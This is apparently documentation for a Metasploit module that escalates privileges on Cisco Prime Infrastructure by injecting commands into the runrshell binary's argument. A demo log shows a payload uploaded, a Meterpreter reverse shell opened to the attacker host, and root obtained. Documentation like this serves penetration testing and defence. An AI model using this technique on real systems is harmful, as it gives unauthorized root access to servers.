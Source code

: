 ## Description

This modules exploits a vulnerability in Cisco Prime Infrastructure's runrshell binary. The runrshell binary is meant to execute a shell script as root, but can be abused to inject extra commands in the argument, allowing you to execute anything as root. It was originally discovered by Pedro Ribeiro, and chained in the CVE-2018-15379 exploit.

## Demo

```
msf5 exploit(linux/local/cpi_runrshell_priv_esc) > run

[*] Started reverse TCP handler on 192.168.0.21:4444 
[*] Uploading /tmp/mYVrqmsETa.bin
[*] chmod the file with +x
[*] Executing /tmp/mYVrqmsETa.bin
[*] Sending stage (985320 bytes) to 192.168.0.23
[*] Meterpreter session 4 opened (192.168.0.21:4444 -> 192.168.0.23:55554) at 2019-06-10 11:18:13 -0500
[+] Deleted /tmp/mYVrqmsETa.bin

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```

